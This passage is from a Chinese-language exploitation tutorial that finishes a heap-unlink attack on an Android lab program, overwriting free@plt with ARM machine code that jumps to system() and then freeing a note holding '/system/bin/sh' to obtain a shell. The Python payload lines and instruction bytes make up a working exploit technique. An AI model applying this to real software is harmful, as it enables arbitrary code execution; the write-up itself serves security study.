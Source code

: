 此时notes数组的内存如下：

![](heapunlink6.png)

#### step 5\. 修改free@plt的指令

为了调用free()时，实际调用的是system()，这里需要将free@plt函数的指令修改使其跳转到system()函数。首先我们把模拟器上的libc.so拿到：

`adb pull /system/lib/libc.so`
然后在ida中查看system函数的偏移：
![](heapunlink7.png)

可见system的指令为thumb指令，在libc.so中的偏移为system_offset=0x246A1。接着通过读取/proc/pid/maps得到libc.so的基址libc_base，从而system()在内存中的实际地址就是system_addr=libc_base+system_offset。

于是刚好可以将free@plt的指令修改为：

```
LDR R1, [PC]
BLX R1
system_addr 
```

假如system_addr为0xB124A561，那么上面指令的机器码为：

```
00109FE5
31FF2FE1
61A524B1 
```

具体的代码如下：

```
note0_content = p32(0xE59F1000) + p32(0xE12FFF31) + p32(self.system_addr)
self.__edit_note(0, 0xC, note0_content) 
```

ps：在unlink_demo中.got section所在segment的flags是可写的，但是一运行起来，从/proc/pid/maps得到的结果却是该segment只读，于是只好修改unlink_demo文件中代码段的属性为可读写，这样就可以运行时修改free@plt的指令了。
其实本来想直接修改got中free的地址，苦于这段内存只读，不知道怎么设置为可写。

#### step 6\. 新建并释放notes[2]，触发system(“/system/bin/sh”)

```
self.__malloc_note(2, 0xE, "/system/bin/sh")
self.__free_note(2) 
```

当free(notes[2])时，由于free@plt会直接跳转到system()，所以这里相当于调用system(notes[2])，而notes[2]指向“/system/bin/sh”，所以这里相当于执行system(“/system/bin/sh”)，从而得到shell，利用成功！

#### 结果

运行利用程序exp_unlink.py，通过gdb得到notes的地址，最后的运行结果如下：

![](heapunlink8.png)
